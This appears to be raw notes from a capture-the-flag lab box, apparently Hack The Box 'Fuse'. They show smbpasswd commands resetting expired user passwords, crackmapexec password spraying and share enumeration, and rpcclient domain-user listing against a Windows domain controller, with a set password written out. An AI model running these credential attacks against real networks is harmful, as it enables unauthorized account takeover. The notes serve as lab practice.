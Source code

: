 Password:
[-] SMB SessionError: STATUS_PASSWORD_MUST_CHANGE(The user password must be changed before logging on the first time.)



smbpasswd -r 10.10.10.193 -U tlavel
smbpasswd -r 10.10.10.193 -U bhult

new pw:

WE5EK64KSZ48J4D4--1


kali@kali:~/htb/boxes/fuse/10.10.10.193$ crackmapexec smb -u users.txt -p valid-password.txt --shares 10.10.10.193
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\pmerton:WE5EK64KSZ48J4D4--- STATUS_LOGON_FAILURE 
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\tlavel:WE5EK64KSZ48J4D4--- 
SMB         10.10.10.193    445    FUSE             [+] Enumerated shares
SMB         10.10.10.193    445    FUSE             Share           Permissions     Remark
SMB         10.10.10.193    445    FUSE             -----           -----------     ------
SMB         10.10.10.193    445    FUSE             ADMIN$                          Remote Admin
SMB         10.10.10.193    445    FUSE             C$                              Default share
SMB         10.10.10.193    445    FUSE             HP-MFT01                        HP-MFT01
SMB         10.10.10.193    445    FUSE             IPC$                            Remote IPC
SMB         10.10.10.193    445    FUSE             NETLOGON        READ            Logon server share 
SMB         10.10.10.193    445    FUSE             print$          READ            Printer Drivers
SMB         10.10.10.193    445    FUSE             SYSVOL          READ            Logon server share


 rpcclient -U "FABRICORP\\tlavel" 10.10.10.193

 WE5EK64KSZ48J4D4--1


 rpcclient $> enumdomusers 
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
